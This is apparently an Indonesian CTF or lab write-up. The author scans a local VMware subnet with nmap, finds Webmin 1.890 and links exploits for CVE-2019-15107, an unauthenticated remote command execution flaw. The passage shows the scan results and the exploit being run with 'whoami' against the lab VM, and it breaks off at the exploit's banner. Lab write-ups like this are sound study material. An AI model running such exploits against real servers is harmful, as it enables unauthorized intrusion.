 Hasil yang didapatkan adalah ada dua host aktif pada range subnet tersebut, yaitu `192.168.75.1` dan `192.168.75.128`. Saya belum tau IP mana yang benar, maka saya mencoba mengidentifikasinya melalui service dan sistem operasi yang digaunakan dari masing-masing IP.

```bash
natanhp@ngoumah ~ [1]> nmap -sV 192.168.75.1
Starting Nmap 7.92 ( https://nmap.org ) at 2024-09-18 17:08 WIB
Nmap scan report for 192.168.75.1 (192.168.75.1)
Host is up (0.00017s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT    STATE SERVICE         VERSION
22/tcp  open  ssh             OpenSSH 9.3 (protocol 2.0)
902/tcp open  ssl/vmware-auth VMware Authentication Daemon 1.10 (Uses VNC, SOAP)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
natanhp@ngoumah ~ [1]> nmap -sV 192.168.75.128
Starting Nmap 7.92 ( https://nmap.org ) at 2024-09-18 17:08 WIB
Nmap scan report for 192.168.75.128
Host is up (0.90s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.43 seconds
```

Dari hasil tersebut bisa saya simpulkan kalau IP target adalah `192.168.75.128` karena IP yang satunya digunakan oleh VMWare sendiri.

## 2. Scanning and Enumeration
Dari hasil recon, dapat diidentifikasi ada dua service yang terbuka, yaitu SSH dan Webmin. Dari hasil googling, Webmin dengan versi `1.890` memiliki vulnerability yang sudah dipublish dengan nomor [CVE 2019-15107]('https://www.exploit-db.com/exploits/47230'). Dari exploit db tadi sudah disediakan exploit jadinya, tetapi memerlukan Metasploit Framework, beruntung sudah ada exploit yang standalone yang disediakan di [sini]('https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/tree/master').

## 3. Gaining Access
Exploit di atas sudah saya download dan jalankan. Perintah untuk mengetes pertama adalah `whoami` untuk mencari tahu sebagai user apa command dieksekusi.

```bash
natanhp@ngoumah ~/D/w/WebMin-1.890-Exploit-unauthorized-RCE (master) [1]> python webmin-1.890_exploit.py 192.168.75.128 10000 whoami
/home/natanhp/Downloads/wembin/WebMin-1.890-Exploit-unauthorized-RCE/webmin-1.890_exploit.py:6: SyntaxWarning: invalid escape sequence '\_'
  STAIN = """


--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ /
 ___/ // / / ___ |_/ // /|  /
/____//_/ /_/  |_/___/_/ |_/

--------------------------------

WebMin 1.890-expired-remote-root

```